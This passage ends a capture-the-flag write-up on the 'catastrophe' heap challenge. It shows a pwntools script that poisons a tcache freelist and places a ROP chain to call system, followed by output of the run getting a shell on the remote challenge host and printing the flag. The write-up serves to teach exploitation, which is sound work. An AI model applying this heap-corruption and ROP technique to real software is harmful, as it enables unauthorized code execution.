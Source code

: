 When we got the write what where on the stack we simply have to craft a call
ot system since there is no `seccomp` shit.  
Here is the script:  
```py  
free(1) # prev  
free(2) # victim

alloc(5, b"T"*0x108 + pwn.p64(0x111) + pwn.p64((stack ^ ((heap + 0xb20) >>
12))), 0x130)  
# victim->next = target  
alloc(2, b"TT", 0x100)

alloc(3, pwn.p64(stack) + rop.chain(), 0x100) # overwrite sRBP for nothing
lmao  
# ROPchain on do_malloc's stackframe  
```

And here we are:  
```bash  
nasm@off:~/Documents/pwn/diceCTF/catastrophe/f2$ python3 sexploit.py REMOTE
HOST=mc.ax PORT=31273  
[*] '/home/nasm/Documents/pwn/diceCTF/catastrophe/f2/catastrophe'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to mc.ax on port 31273: Done  
/home/nasm/.local/lib/python3.10/site-packages/pwnlib/tubes/tube.py:822:
BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See
https://docs.pwntools.com/#bytes  
 res = self.recvuntil(delim, timeout=timeout)  
[*] heap @ 0x559cb0184000  
[*] libc: 0x7efe8a967000  
[*] environ: 0x7efe8ab88200  
[*] stdout: 0x7efe8ab81780  
[*] stack: 0x7ffe06420710  
[*] Switching to interactive mode  
$ id  
uid=1000 gid=1000 groups=1000  
$ ls  
flag.txt  
run  
$ cat flag.txt  
hope{apparently_not_good_enough_33981d897c3b0f696e32d3c67ad4ed1e}  
```

## Resources  
- [a1ex.online](https://a1ex.online/2020/10/01/glibc-IO%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90/)  
- [ray-cp](https://ray-cp.github.io/archivers/IO_FILE_arbitrary_read_write)  
- [Mutepig's Blog](http://blog.leanote.com/post/mut3p1g/file-struct)
